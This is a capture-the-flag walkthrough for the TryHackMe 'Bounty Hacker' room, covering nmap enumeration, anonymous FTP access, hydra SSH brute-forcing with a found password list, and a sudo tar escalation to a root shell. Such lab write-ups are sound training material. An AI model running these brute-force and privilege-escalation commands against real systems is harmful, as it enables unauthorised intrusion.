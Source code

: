 # Bounty Hacker 
 ~ https://tryhackme.com/room/cowboyhacker
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![bonty intro](https://user-images.githubusercontent.com/112984045/200177378-c657e25e-8fa7-43fa-b5de-7c34aa08ee05.png)
 ~ the IP will be given once once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![bonty nmap](https://user-images.githubusercontent.com/112984045/200179161-11ae6f38-9148-47f6-acbc-267679af2992.png)
  <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
 ![bonty portscanner](https://user-images.githubusercontent.com/112984045/200180020-c653c656-2254-4224-b674-866404b281eb.png)<br>
  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 ## FOOTHOLD
 
 * `the ftp port 21 is Anonymous FTP login allowed (FTP code 230)`
 ![bonty ftpmarked](https://user-images.githubusercontent.com/112984045/200180232-5e8d8e21-8bdc-4e18-b1c6-f7f3a30ce9ba.png)
 <br> ~ Therefore we can login to ftp without password by using USERNAME: Anonymous.
 
 
 ![bonty ftp login](https://user-images.githubusercontent.com/112984045/200180807-8c088b60-5245-4a8e-8fd2-5261e67f2263.png)
 <br> ~ After login have observed the files using the command:
 ```bash
 ls -la
 ```
 <br>
 
 * As we cannot read the files on shell, we will download those files to our local system using commands:
 ``` bash
 get locks.txt
 ```
 ```bash
 get task.txt
 ```
 <br>
 
 * Now we can read the content in the files using command:
 ``` bash
 cat locks.txt
 ```
 ![bonty locks](https://user-images.githubusercontent.com/112984045/200181166-706202a0-397a-4215-aaea-b415642294d5.png)
  <br> ~ This file looks like password list, This could be helpfull for any further bruteforce.
  <br>
  
  ``` bash
  cat tash.txt
  ```
  ![bonty task](https://user-images.githubusercontent.com/112984045/200181361-2a32ec55-cc5d-4cfc-9312-54712a80668b.png)
  <br> ~ There is a message which is written by 'lin'
  ![bonty 3](https://user-images.githubusercontent.com/112984045/200181716-bc85faea-1009-495f-a21d-7e7a36c1fdc9.png)
  <br>
  
  `* As we have login access to ftp port hence there is only port 22 which could be bruteforce using locks.txt i.e ssh`
   ![bonty 4](https://user-images.githubusercontent.com/112984045/200181900-16b07e3f-d763-443a-9a8b-b097ea46b0ed.png)
   <br>
   
   *As we have username: 'lin' and password list: locks.txt. We can use hydra tool for bruteforcing ssh server.
   <br>command:
   ```bash
   hydra -l lin -P locks.txt ssh://<IP>
   ```
   ![bonty hydra](https://user-images.githubusercontent.com/112984045/200182851-8e096ab3-b256-47d3-aa9b-8825637ee755.png)
   <br> ~ Now we can login to ssh using these credentials.
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183044-0a8e07d5-d71c-4232-be91-ef66868be99c.png)

 
   
   <br>
   
   * After logging in to ssh we can look for file contents and read them using the same commands :
   ```bash 
   ls -la
   ```
   ```bash
   cat user.txt
   ```
   ![bonty 5](https://user-images.githubusercontent.com/112984045/200183130-ea0fc571-676e-47bc-9790-122cbc2be4fb.png)
<br>
   
   ## PRIVILEGE ESCALATION :
  * To check the root level access on command or authority to read, write, execute on files, we use command :
  ```bash
  sudo -l
  ```
   <br> ~ we can observe that user lin can run the commad tar as sudo.
   
  <br>
  
  ` * We can look in [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for a command to escalate.`
  ![bonty gtfbins tar](https://user-images.githubusercontent.com/112984045/200183946-d92a93da-2afa-4d22-9c5f-9a8259c89517.png)
<br>

* Finally we can run the command :
```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
<br> ~ congo you are in.

* Now change directory to /root and read the flag using the commands :
```bash
cd /root
```
```bash
cat root.txt
```

   
   
   
